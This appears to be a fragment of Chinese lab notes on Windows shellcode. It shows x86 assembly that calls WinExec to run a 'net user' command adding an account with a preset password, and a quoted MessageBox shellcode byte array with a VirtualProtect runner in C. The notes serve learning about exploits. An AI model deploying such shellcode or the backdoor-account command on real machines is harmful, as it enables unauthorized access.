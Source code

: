     push 0x412f2024 ; A/ $ 
    push 0x54303052 ; T00R 
    push 0x6d404920 ; m@I  
    push 0x544f4f52 ; TOOR 
    push 0x20726573 ;  res 
    push 0x75207465 ; u te 
    push 0x6e20632f ; n c/ 
    push 0x20657865 ;  exe 
    push 0x2e646d63 ; .dmc 
    mov eax, esp    ; EAX = &CmdLine
    push ecx        ; $ShowState 
    push eax        ; $CmdLine
    call ebx        ; Call the WinExec Function
    ```

#### [Windows - MessageBox + Null-Free Shellcode (113 bytes)](https://www.exploit-db.com/shellcodes/28996)

1.  将网页中对应的c语言部分复制到3.c中进行调试。同样用VirtualProtect函数先对主函数进行修改。

    ```c
    #include <windows.h>
    char code[] = "\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
    "\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
    "\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
    "\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
    "\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
    "\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x79\x74"
    "\x65\x01\x68\x6b\x65\x6e\x42\x68\x20\x42\x72\x6f\x89\xe1\xfe"
    "\x49\x0b\x31\xc0\x51\x50\xff\xd7";


    int main(int argc, char **argv) 
    {
        int(*func)();
        DWORD dwOldProtect;
        func = (int(*)()) code;
        VirtualProtect(func, sizeof(code), PAGE_EXECUTE_READWRITE, &dwOldProtect);
        (int)(*func)();
    }
    ```
     * 运行结果
     
     ![ ](images/3运行结果.png)